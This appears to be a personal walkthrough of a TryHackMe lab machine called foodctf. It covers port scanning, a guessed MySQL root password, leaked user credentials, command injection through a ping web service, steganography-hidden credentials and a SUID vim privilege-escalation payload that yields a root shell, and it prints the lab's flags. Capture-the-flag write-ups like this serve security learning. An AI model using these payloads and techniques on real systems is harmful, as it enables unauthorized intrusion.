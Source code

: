 ### Nmap Scan

`nmap -sV -sT -A 10.10.97.69

```
─[glack@parrot]─[~]
└──╼ $nmap -sV -sT -A 10.10.97.69
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-27 02:54 IST
Nmap scan report for 10.10.97.69
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 280c0cd95a7dbee6f43ced1051494d19 (RSA)
|   256 17ce033bbb207809ab76c06d8dc4df51 (ECDSA)
|_  256 078a50b55b4aa76cc8b3a1ca77b90d07 (ED25519)
3306/tcp open  mysql   MySQL 5.7.29-0ubuntu0.18.04.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.29_Auto_Generated_Server_Certificate
| Not valid before: 2020-03-19T17:21:30
|_Not valid after:  2030-03-17T17:21:30
 mysql-info: 
|   Protocol: 10
|   Version: 5.7.29-0ubuntu0.18.04.1
|   Thread ID: 4
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsTransactions, FoundRows, IgnoreSpaceBeforeParenthesis, ODBCClient, IgnoreSigpipes, Speaks41ProtocolOld, InteractiveClient, SupportsLoadDataLocal, SupportsCompression, LongColumnFlag, LongPassword, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: -o\x07m:<7b~gL\x195%\x0C\x0DI_\x03g
|_  Auth Plugin Name: mysql_native_password
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Wed, 26 Jul 2023 15:54:32 GMT
|     Content-Length: 4
|     Content-Type: text/plain; charset=utf-8
|     king
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request



```

### Mysql

1. connect to target mysql server using
```
─[✗]─[glack@parrot]─[~]
└──╼ $mysql -h 10.10.97.69 -u root -p
```

guessed the password as `root`

2. a flag and a credentials
```
MySQL [users]> SELECT * FROM User;
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+
2 rows in set (0.130 sec)

```

Flag 1 - thm{2f30841ff8d9646845295135adda8332}

### Shell

1. SSH into the ,machine using above creds
2. got another flag in bread directory
```
ramen@foodctf:/home/bread$ cat flag
thm{7baf5aa8491a4b7b1c2d231a24aec575}
```

flag2 - thm{7baf5aa8491a4b7b1c2d231a24aec575}

3. found another username
```

ramen@foodctf:/home/bread/resources$ cat index.html

<p>Blame Dan, he keeps messing with the prod servers.</p>
```
4. in the resource directory there were few html documents and contents were that we are able to run a ping command as a user, but there was no service running
5. we are able to trigger the service once we run
`ramen@foodctf:/home/bread$ ./main`

6. We can check what prot the service is running on
`ramen@foodctf:/home/bread$ cat main.go`

`portPtr := flag.Int("p", 15065, "Port number to run the server on")`

7. We can access the created serivce on web browser using(got the /monitor from index.html file)
`http://10.10.97.69:15065/monitor/

8. we are able to run `ping 10.10.10.10` but when try to enter other command we get an error `Ip address invalid`
9. i captured the request over burp and changed the command to `ls -al`, and we get the command output
10. We can run commands this way as the user `uid=1004(bread) gid=1004(bread) groups=1004(bread)`
11. found another flag in 

```
ramen@foodctf:/home/food$ cat .flag
thm{58a3cb46855af54d0660b34fd20a04c1}

```

flag 3 - thm{58a3cb46855af54d0660b34fd20a04c1}

12. found another flag at
```
ramen@foodctf:/$ cat /var/flag.txt
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```

flag4 - thm{0c48608136e6f8c86aecdb5d4c3d7ba8}

13. there was a binary named `img` in user `tryhackme` home folder, running it did something. other files were not accessible. 
14. Ran a nmap scan again to check what i missed
```
└──╼ $nmap -T5 --min-rate=10000 -p- 10.10.6.166
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 01:50 IST
Warning: 10.10.6.166 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.6.166
Host is up (0.13s latency).
Not shown: 64996 closed tcp ports (conn-refused), 533 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
3306/tcp  open  mysql
9999/tcp  open  abyss
15065/tcp open  unknown
16109/tcp open  unknown
46969/tcp open  unknown

```

15. When trying to connect we are greeted with a strange text
```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/koth_food]
└──╼ $telnet 10.10.97.69 46969

tccr:uwjsasqccywsg
```

decoded this using ROT12 cipher and we get
food:givemecookies after logging in we get shell as  food, but no flag in /food

16. Found another http port open on `http://10.10.6.166:16109/` this had an image on index.html, downloaded the image. There was a cred.txt file hiddent in it
```
┌─[glack@parrot]─[~/Desktop/THM/koth_food]
└──╼ $stehide extract -sf 10.10.6.jpeg

─[glack@parrot]─[~/Desktop/THM/koth_food]
└──╼ $cat creds.txt 
pasta:pastaisdynamic

```
we get another set of credentails

### Priv ESC

1. All users had vim.basic comamnd as SUID bit set

`ramen@foodctf:/home/tryhackme$ find / -type f -perm -4000 2>/dev/null`

`/usr/bin/vim.basic`

2. GTFO bins helped with the command on priv esc
```
sudo install -m =xs $(which vim) .

./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

had to make some modifications to it

opened `vim`
pressed `ESC` and `:`
then entered this command `python3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")`

gtfobin command would fail because python2 is not installed

2. We get root shell
```
# whoami
root
```

we get a reverse shell on our system using 

3. We find the 5th flag in `/home/tryhackme`
```
# cat flag7	
thm{5a926ab5d3561e976f4ae5a7e2d034fe}
```

4. we find the 6th in `/root`
```
# cat flag	
thm{9f1ee18d3021d135b03b943cc58f34db}
```

### Remaining flag

I went for the writeups for the remaining flags

well no writeups had info abt other flags either


